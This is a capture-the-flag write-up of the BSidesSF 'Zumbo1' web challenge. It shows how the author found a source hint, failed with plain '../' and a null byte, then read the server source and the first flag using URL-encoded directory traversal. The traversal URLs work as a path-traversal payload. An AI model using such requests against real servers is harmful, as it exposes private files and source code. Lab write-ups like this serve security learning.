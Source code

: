Challenge: Zumbo1 |
----------------------------------------
Category: Web |
----------------------------------------
20 points |
----------------------------------------

```
Description:

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net
Stages 2 and 3 - coming soon!

```

We connect to the site.

<img src="./../files/site2.png">

```
We look at the source code and find hint: <!-- page: index.template, src: /code/server.py -->

We will try a traversal directory on /code/server.py.

http://zumbo-8ac445b1.ctf.bsidessf.net/../code/server.py (../) mutliple of 1, 2, 3 etc .... don't match!
[Errno 2] No such file or directory: u'code/server.py' 

redirection: on index.template

we test null byte %00:
http://zumbo-8ac445b1.ctf.bsidessf.net/%00/code/server.py
file() argument 1 must be encoded string without null bytes, not unicode
```
<img src="./../files/erreur_null_byte.png">
```
We have a problem with encoded string!!!!!
. => %2e
/ => %2f

We test with:
http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/code/server.py
```
<img src="./../files/flag1.png">

``` 
Bingo we have the source code and first flag !!!!!!

FLAG: FIRST_FLAG_WASNT_HARD

``` 
